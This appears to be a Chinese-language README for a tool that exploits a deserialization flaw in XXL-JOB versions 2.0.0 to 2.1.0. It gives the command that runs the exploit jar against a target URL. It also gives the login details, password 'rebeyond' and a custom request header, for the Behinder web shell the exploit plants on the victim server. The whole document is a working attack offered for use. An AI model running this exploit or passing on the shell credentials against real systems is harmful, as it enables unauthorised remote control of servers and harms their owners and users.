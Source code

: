 ## XXL-JOB 2.0.0-2.1.0 反序列化利用工具

### 使用java8直接运行
```bash
java -jar xxl-job-api-exploit-1.0-SNAPSHOT.jar <target_url>
```

### 连接信息
```plaintext
类型：  原版冰蝎3
地址：  <target_url>
密码：  rebeyond
请求头：x-client-data: rebeyond
```
